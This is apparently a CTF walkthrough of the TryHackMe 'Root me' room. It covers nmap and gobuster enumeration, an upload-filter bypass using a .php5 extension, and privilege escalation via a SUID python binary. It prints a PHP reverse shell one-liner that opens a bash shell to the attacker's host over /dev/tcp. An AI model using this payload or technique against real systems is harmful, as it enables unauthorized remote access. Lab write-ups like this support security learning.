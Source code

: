 
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-1.png)

. After a quick directory bruteforcing i found an upload form in which i uploaded a reverse shell and become root by finding a suid binary. 

I started with a basic scan, followd by a more detailed one with the ports found open.

```
nmap -sS -T4 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:44 EDT
Nmap scan report for 10.10.124.42
Host is up (0.071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
nmap -sV -sC -p22,80 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:50 EDT
Nmap scan report for 10.10.124.42
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


On the web port is this page
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-2.png)

Because there are only 2 open ports, i need to fully enumerate the web server to make sure i am not stuck somewhere not knowing what to do. 

```
gobuster dir -u http://10.10.124.42/ -w /usr/share/wordlists/dirb/common.txt T 250
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.42/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/10 04:48:37 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
The only useful pages found are /panel and /uploads. The /panel page can be exploited by uploading a reverse shell payload.

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-3.png)

The mininal reverse shell payload i used.
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.5.181/1234 0>&1'");
```

The file name was rev.php5, as php did not work. Before ulploading it, i will prepare the netcat listener.

If the uploading process was successfull, will appear this panel alongside this link that points to the uploads page.

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-4.png)

The user flag is in the website directory.  
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-5.png)

Now it's time for privesc. Among these binaries is also python.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-6.png)

The payload below was taken from gtfobins. The only thing to do is to read the root flag.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-7.png)


